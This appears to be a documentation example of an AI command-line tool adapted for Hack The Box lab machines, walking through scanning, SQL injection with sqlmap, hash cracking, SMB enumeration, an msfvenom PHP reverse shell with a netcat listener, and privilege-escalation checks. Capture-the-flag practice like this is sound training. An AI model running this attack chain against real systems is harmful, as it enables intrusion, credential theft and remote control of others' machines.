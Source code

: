 # HTB Challenge Example Session

This example demonstrates how to use the HTB-modified Gemini CLI to solve a typical Hack The Box challenge.

## Starting a Session

```bash
gemini
```

## Example Challenge Walkthrough

### Initial Reconnaissance

**User**: I need to hack the machine at 10.10.10.10. Start with initial reconnaissance.

**Assistant**: I'll help you perform initial reconnaissance on the target machine. Let me start with a comprehensive port scan to identify open services.

[tool_call: htb_scanner for scanType='nmap' target='10.10.10.10' options='-p- -T4']

### Web Enumeration

**User**: I see port 80 is open. Let's enumerate the web server.

**Assistant**: I'll enumerate the web server to find hidden directories and files.

[tool_call: htb_scanner for scanType='gobuster' target='http://10.10.10.10' wordlist='/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' options='-x php,html,txt']

### SQL Injection Testing

**User**: I found a login page at /login.php. Test for SQL injection.

**Assistant**: I'll test the login form for SQL injection vulnerabilities.

[tool_call: htb_scanner for scanType='sqlmap' target='http://10.10.10.10/login.php' options='--forms --batch --dump']

### Password Cracking

**User**: I got some password hashes: 
```
admin:5f4dcc3b5aa765d61d8327deb882cf99
user1:e10adc3949ba59abbe56e057f20f883e
```

**Assistant**: These look like MD5 hashes. Let me crack them using hashcat with the rockyou wordlist.

First, let me save the hashes to a file:

[tool_call: run_shell_command for 'echo -e "5f4dcc3b5aa765d61d8327deb882cf99\ne10adc3949ba59abbe56e057f20f883e" > hashes.txt']

Now let's crack them:

[tool_call: htb_scanner for scanType='hashcat' hashFile='hashes.txt' options='-m 0' wordlist='/usr/share/wordlists/rockyou.txt']

### SMB Enumeration

**User**: I also see port 445 is open. Let's enumerate SMB.

**Assistant**: I'll enumerate the SMB service to look for shares, users, and potential vulnerabilities.

[tool_call: htb_scanner for scanType='enum4linux' target='10.10.10.10']

### Getting a Reverse Shell

**User**: I found credentials admin:password. The web server is running PHP. Get me a reverse shell.

**Assistant**: I'll help you get a reverse shell. First, let me set up a listener on your machine:

[tool_call: run_shell_command for 'nc -lvnp 4444' description='Starting netcat listener on port 4444']

Now, let me create a PHP reverse shell payload:

[tool_call: run_shell_command for 'msfvenom -p php/reverse_php LHOST=<your-ip> LPORT=4444 -f raw > shell.php']

### Privilege Escalation

**User**: I got a shell as www-data. Help me escalate to root.

**Assistant**: I'll help you escalate privileges. Let me check for common privilege escalation vectors:

First, let's check for SUID binaries:

[tool_call: run_shell_command for 'find / -perm -u=s -type f 2>/dev/null']

Check sudo privileges:

[tool_call: run_shell_command for 'sudo -l']

Look for interesting files:

[tool_call: grep_search for pattern='password|passwd|pwd' include_pattern='*.conf,*.txt,*.php']

### Finding Flags

**User**: I need to find the user and root flags.

**Assistant**: I'll help you locate the flags. HTB flags are typically in user home directories and /root:

[tool_call: run_shell_command for 'find /home -name user.txt 2>/dev/null']
[tool_call: run_shell_command for 'find /root -name root.txt 2>/dev/null']

## Tips for Using the HTB-Modified Gemini CLI

1. **Always start with enumeration**: The more information you gather, the better your attack strategy
2. **Use the HTB scanner tool**: It provides optimized defaults for common HTB scenarios
3. **Chain commands**: Use the shell tool for complex command chains and scripts
4. **Save your progress**: Use the memory tool to save important findings:
   ```
   [tool_call: save_memory for content='Admin credentials: admin:password']
   ```
5. **Document vulnerabilities**: Keep track of what worked for future reference

## Common HTB Patterns

- **Web servers**: Often vulnerable to SQL injection, file upload, or directory traversal
- **SMB shares**: May contain credentials or sensitive files
- **Outdated services**: Check version numbers against exploit databases
- **Weak passwords**: Always try common credentials and password spraying
- **Misconfigurations**: Look for writable directories, SUID binaries, and cron jobs 